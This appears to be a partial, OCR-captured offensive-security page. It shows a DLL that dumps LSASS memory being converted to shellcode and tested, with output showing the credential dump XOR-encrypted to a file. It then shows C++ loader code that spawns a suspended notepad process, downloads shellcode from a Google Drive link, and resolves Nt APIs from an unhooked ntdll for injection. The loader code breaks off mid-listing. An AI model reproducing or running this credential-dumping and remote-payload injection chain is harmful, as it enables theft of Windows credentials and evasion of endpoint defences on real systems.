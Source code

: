Convert DLL to shellcode and test:

```
PS D:\Work\pe2sh> .\pe2shc.exe .\DLLHijackLSASSDump.dll DLLHijackLSASSDump.bin
Using: Loader v2
Reading module from: .\DLLHijackLSASSDump.dll
[INFO] This is a console application.
[INFO] Saved as: DLLHijackLSASSDump.bin

PS D:\Work\pe2sh> .\runshc64.exe .\DLLHijackLSASSDump.bin
[*] Reading module from: .\DLLHijackLSASSDump.bin
>>> Creating a new thread...
[*] Running the shellcode [1bb11230000 - 1bb11239600]
[+] Searching for LSASS PID
[+] LSASS PID: 1436
[+] Starting dump to memory buffer
[+] Copied 71065441 bytes to memory buffer
[+] Dump3d LS@SS!
[+] Xor encrypting the memory buffer containing the dump data
[+] Xor key: jisjidpa123
[+] Enrypted dump data written to "LSASS_ENCRYPTED.DMP" file
[*] Running again to unload the DLL...
[*] Load status: 2
[+] The shellcode finished with a return value: 1
>>> FINISHED.
```

Once done we serve the shellcode from google drive.

*Note: Adding NtAPI header definitions hasn't been shown here.*

```
int main()
{
    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    // create process
    BOOL success = CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW | CREATE_SUSPENDED,
        NULL,
        NULL,
        startup_info,
        process_info);

    // download shellcode
	std::vector<BYTE> shellcode = Download(L"www.drive.google.com\0", L"/u/5/uc?id=1WUDbPX-v47lxMcE0e9K_Uqk6G83AZa5_&export=download\0");

    // find Nt APIs
    // HMODULE hNtdll is the handle to Unhooked ntdll
    NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
```

[+]: Shellcode located at c7160
